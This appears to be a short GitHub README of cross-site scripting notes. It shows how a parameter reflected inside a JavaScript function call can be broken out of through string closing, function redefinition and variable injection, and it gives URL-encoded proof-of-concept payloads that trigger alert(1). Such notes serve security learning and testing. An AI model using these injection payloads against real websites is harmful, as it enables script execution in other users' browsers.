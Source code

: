 # XSS-Notes
XSS Scenarios

```
<script>
    leo.write('test','reflection_here')
</script>
```

Exploitable scenarios

```
vulnerableFunction('test', 'INJECTION');
```
```
//param='-alert(1)-'
vulnerableFunction('test', ''-alert(1)-''); 
```

Function injection

```
vulnerableFunction('test', ''-alert(1)-''); 

function vulnerableFunction(a,b){
    return 1
};
```
```
//Payload
param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
```

```
vulnerableFunction('test', 'test'); 

function vulnerableFunction(a,b){
    return 1
};

alert(1)
```

```
//Payload
param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
```

Variable injection

```
function myFunction(a,b){
    return 1
};
myFunction(a, 'test'); 
var a = 1;
alert(1);
```

```
//Payload
param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
```


